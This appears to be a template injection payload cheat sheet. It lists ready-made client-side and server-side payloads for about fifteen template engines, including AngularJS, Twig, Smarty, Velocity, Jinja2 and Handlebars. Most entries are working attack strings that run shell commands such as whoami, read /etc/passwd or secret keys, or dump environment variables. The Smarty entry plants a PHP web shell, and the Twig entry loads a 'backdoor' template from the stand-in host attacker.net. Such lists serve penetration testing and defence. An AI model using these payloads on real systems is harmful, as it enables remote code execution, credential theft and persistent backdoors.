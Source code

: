 # Template Injection

## Polyglot payload

```
${{<%[%'"}}%\
{{ 7-7 }}    //0 should appear where the template is evaluated
```

## Client Side Payloads

### AngularJS

```
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

### VueJS

```
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
{{_openBlock.constructor('alert(1)')()}}     //V3
{{constructor.constructor('alert(1)')()}}    //V2
```

### Mavo

```
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
```

## Server Side Payloads

### FreeMarker - java

```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

### Java

```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

### Twig - PHP

```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

### Smarty - PHP

```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

### Handlebars - NodeJs

```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
```

### Velocity

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

### ERB - Ruby

```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

### Django - Python

```
{% raw %}
{% debug %}
{% endraw %}
{{settings.SECRET_KEY}}
```

### Tornado - Python

```
{% raw %}
{% import foobar %} = Error
{% import os %}
{% endraw %}{{os.system('whoami')}}
```

### Mojolicious - Perl

```
<%= perl code %>
<% perl code %>
```

### Flask/Jinja2

```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{% raw %}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
{% endraw %}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

### Jade

```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

### Razor - .Net

```
@(1+2)
@{// C# code}
```



